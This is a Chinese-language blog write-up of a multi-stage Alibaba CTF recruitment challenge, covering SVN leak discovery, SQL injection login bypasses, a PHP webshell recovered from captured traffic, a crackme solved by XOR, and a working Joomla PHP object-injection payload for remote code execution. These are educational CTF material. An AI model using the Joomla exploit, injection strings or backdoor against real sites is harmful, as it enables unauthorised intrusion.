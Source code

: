title: This is AliCTF?
date: 2016-03-15 08:35:30
tags: ctf
---
![alictf0](http://7xscw6.com1.z0.glb.clouddn.com/hexo-alictf0.png)
> 这算是今年的阿里CTF？昨天小伙伴在玩这个，我在研究0CTF的WEB题，今早知道真相的我眼泪掉下来。上周五刚面了一轮。。。
<!--more-->

# Step 0
上图中的base64解码呗。。
```
$ echo "aHR0cDovLzIxOC4yNDQuMTQzLjE5OC8=" | base64 -d
http://218.244.143.198/
```

打开来是一个 伪造？ 的sqlmap网站，右键查看源码， 有一坨jsfuck，太长了，这里就不贴了。。直接丢F12里面的console运行，得到：
```
218.244.143.198/.svn/
```

那就svn泄露呗，记得以前做过这样的题，记不清楚了，google一下，
> 现实的开发环境中，强烈建议使用导出功能svn export而不是svn co。由此可能导致非常严重的问题，很多管理员直接吧svn co出来的代码直接放到web目录下。这就使.svn隐藏文件夹被暴露于外网环境，黑客可以借助其中包含的用于版本信息追踪的“entries”文件，逐步摸清站点结构。

所以接下来就是访问 `http://218.244.143.198/.svn/entries`, 得到
```
12
This is lastest version SVN, U know wc.db?
```

然后访问 `http://218.244.143.198/.svn/wc.db` 把这文件下下来，这文件是svn的sqlite数据库，然后装了一个这个数据库的浏览器。
```
$ sudo apt-get install sqlitebrowser
```

然后用这个打开wc.db，然后关于这个数据库的问题网上随便都搜的到，然后找到一篇wp: <http://bobao.360.cn/learning/detail/129.html>
发现一个页面：`66666/index.php` 不过这wp中说的源码泄露没发现，所以直接去访问看看。。

好了。。。这时候该问。。最短的payload的是啥？讲道理，我觉得是 `'='`, 可是竟然不跟我讲道理。。。所以我觉得最短的是`'=''#`还有`'||1#` , 然后得到
```
Hack it to make money! GoGoGo~ http://218.244.143.198/zootopia/
```

。。这。。懵逼了一会，随便看了看默认的是啥。。。发现是一串md5: `d41b8265807ce33038df2b3f7aa9fb10`
丢cmd5上，接出来是aliyun, 试试，(⊙v⊙)。。。。对了
得到一个文件:`c0ngrats.txt`, 打开来看看，得知后面还有3题，和下一题的题目地址：`http://218.244.143.198/static/backdoor.zip`

# Step 1

下载下来解压出来是一个数据包，数据流量审计题。。关于这类的题，我觉得很蛋疼。要不然很简单，比如http这样明文传输的协议的审计，要不然再难一点，加上802.11无线协议，但是这种爆破密码就没意思了，不设密码又太简单。要不然就是很难的审计加密协议。。所以hctf的时候我就没出流量审计的题目。

这题呢，就属于那种就简单的把，先过滤出来http协议，然后发现第一个backdoor.php，然后整理了下这个后门的源码
```
<?php
@ini_set("display_errors","0");
@set_time_limit(0);
@set_magic_quotes_runtime(0);
echo("->|");
$D=base64_decode($_POST["z1"]);
$F=@opendir($D);
if($F==NULL) {
	echo("ERROR:// Path Not Found Or No Permission!");
} else{
	$M=NULL;
	$L=NULL;
	while($N=@readdir($F)) {
		$P=$D."/".$N;
		$T=@date("Y-m-d H:i:s",@filemtime($P));
		@$E=substr(base_convert(@fileperms($P),10,8),-4);
		$R="\t".$T."\t".@filesize($P)."\t".$E."\n";
		if(@is_dir($P)) $M.=$N."/".$R;
		else $L.=$N.$R;
	}
	echo $M.$L;
	@closedir($F);
};
echo("|<-");
die(); 
?>
```

然后发现ip和该题的题目链接ip一样，去试试，没有这后门文件，那就从数据包入手。右击 -> Follow TCP Stream
得到另一个文件`wllm`, 访问得
```
find data package careful, you will find next level url , that will be a crackme
```

所以说下一题的入口还是在数据包里。。。看着一坨的http包，好吧，继续过滤 `http && ip.addr==218.244.143.198`
然后从第四个POST包中的参数z2中得到下一题的入口：
```
$ echo "YUhSMGNEb3ZMekl4T0M0eU5EUXVNVFF6TGpFNU9DOXpkR0YwYVdNdlkzSmhZMnR0WlE9PQ==" | base64 -d| base64 -d
http://218.244.143.198/static/crackme
```

# Step 2

linux64位逆向题呗。。。比Z神出的简单多了，直接丢到ida中，F5，关键部分如图所示
![alictf1](http://7xscw6.com1.z0.glb.clouddn.com/hexo-alictf1.png)
payload:
```
# crack.py
#!/usr/bin/env python
#-*- coding:utf-8 -*-

secret = [0x8, 0x45, 0x0A, 0x42, 0x4b, 0x31, 0x6d, 0x2f, 0x52, 0x0b, 0x16, 0x23] 
secret1 = [0x73, 0x64, 0x66, 0x23, 0x6b, 0x6c, 0x25, 0x72, 0x29, 0x6b, 0x73, 0x6b]
result = ""

for x in range(12):
	tmp = secret[x] ^ secret1[x] ^ 0xF
	result += chr(tmp)

result += "a"
print result
# $ python crack.py | ./crackme
# I want ur password:Yes!
# $ python crack.py
# t.cn/RGRtojGa
```

去掉最后的a，就是下一题的入口了
# Step 3

http://112.124.106.246/7fbde8d70c816033/index.php
打开来一看是.....Joomla。。。。。。。。。。
0CTF的piapiapia那题搜关于php序列化的漏洞搜出来的全是这个博客的反序列化截断漏洞。。。。
然后发现这漏洞阿里云还写了分析报告，好了。。。估计就是这洞了。。。
payload:
```
# payload.py
#!/usr/bin/env python
#-*- coding:utf-8 -*-

import requests

url = "http://112.124.106.246/7fbde8d70c816033/index.php"
header = {
	"X-Forwarded-For": '}__test|O:21:"JDatabaseDriverMysqli":3:{s:2:"fc";O:17:"JSimplepieFactory":0:{}s:21:"\\0\\0\\0disconnectHandlers";a:1:{i:0;a:2:{i:0;O:9:"SimplePie":5:{s:8:"sanitize";O:20:"JDatabaseDriverMysql":0:{}s:8:"feed_url";s:37:"phpinfo();JFactory::getConfig();exit;";s:19:"cache_name_function";s:6:"assert";s:5:"cache";b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql":0:{}}i:1;s:4:"init";}}s:13:"\\0\\0\\0connection";b:1;}\xf0',
}

req = requests.get(url, headers=header)
print req.content
# $ python payload.py
# Success! key:xxxxxxxxxxxxxxxxxxxxx 发简历时附加此key有加分
```

撸了两节课撸完了。。。还是继续研究0CTF去了。。